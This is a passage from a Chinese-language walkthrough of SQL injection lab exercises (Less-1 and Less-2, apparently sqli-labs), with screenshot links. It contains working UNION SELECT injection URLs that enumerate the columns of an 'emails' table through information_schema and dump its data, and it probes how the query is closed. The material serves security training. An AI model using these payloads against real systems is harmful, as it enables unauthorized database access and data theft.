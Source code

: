 ```sql
#获取emails表的字段
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="emails"--+
```

![image-20241007012127486](./assets/image-20241007012127486.png)

```sql
#获取数据
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,group_concat(id,email_id) from security.emails--+
```

![image-20241007012259577](./assets/image-20241007012259577.png)

****

### Less-2(联合查询->无闭合)

```sql
#判断闭合方式
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,3 
```

![image-20241007013152497](./assets/image-20241007013152497.png)
